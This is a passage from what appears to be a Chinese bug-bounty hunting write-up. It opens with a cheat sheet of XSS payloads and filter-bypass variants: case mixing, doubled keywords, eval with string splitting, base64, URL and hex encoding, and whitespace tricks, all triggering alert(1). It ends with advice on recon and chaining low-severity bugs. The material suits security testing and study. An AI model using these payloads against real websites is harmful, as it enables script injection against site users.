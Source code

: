 <details open ontoggle=alert(1)>
<body onload=alert(1)>
<M onmouseover=alert(1)>M
<iframe src=javascript:alert(1)></iframe>
<iframe onload=alert(1)>
<input type="submit" onfocus=alert(1)>
<input type="submit" onclick=alert(1)>
<form><input type="submit" formaction=javascript:alert(1)>

```  
##### bypass 姿势  
```

<img/src="1"/onerror=alert(1)>


<iimgmg src=1 oonerrornerror=aimglert(1)>


<iMg src=1 oNerRor=alert(1)>


<img src=1 onerror="a=`aler`;b=`t(1)`;eval(a+b);">
<img src=1 onerror=eval(atob('YWxlcnQoMSk='))>


<img src=1 onerror=location='javascript:%61%6C%65%72%74%28%31%29'>
<img src=1 onerror=location='javascript:\x61\x6C\x65\x72\x74\x28\x31\x29'>
<img src=1 onerror=location="javascr"+"ipt:"+"%61%6C%65%72%74%28%31%29">


<img src=1 onerror="window.onerror=eval;throw'=alert\x281\x29';">


<img src=1 onerror     =alert(1)>
<img src=1 onerror
=alert(1)>


<img src=1 onerror=alert(1)>


<img src=1 onerror=alert(1)>

```  
#### 威胁情报的提交  
  
这块我也没有经验，给大家分享两篇文章吧。。。信息收集到了还是可以试试提交的  
  
https://mp.weixin.qq.com/s/v2MRx7qs70lpnW9n-mJ7_Q  
  
https://bbs.ichunqiu.com/article-921-1.html  
  
可以试一试加一加各种羊毛群，反手撸一手羊毛群的羊毛。  
### 对于挖掘高危、严重级别漏洞的一些思考  
  
因为一直以来挖到高危、严重的数量寥寥无几，基本上就是一直在捡一些中低危漏洞，这段时间也看了很多牛叉的漏洞报告，想聊一聊我的思考。  
##### 1. 自动化信息收集的能力  
  
这里说的信息收集更多的是如何利用已有的工具进行快速自动化的收集和整理，既要做到速度快，还要做到全面收集不遗漏信息，很多时候这个过程本身就是在发现漏洞。  
  
这些工作应该在我们前期信息收集的阶段就应该全面的完成，所以如何快速化的进行全面的信息收集是我们需要思考和不断实践的。  
##### 2. 打漏洞组合拳的能力  
  
SRC 对于漏洞评级主要是看你漏洞可以造成的危害，所以当挖到一些低危漏洞时，可以先不急着提交，找一找有没有其他可以利用的点打漏洞组合拳。  
```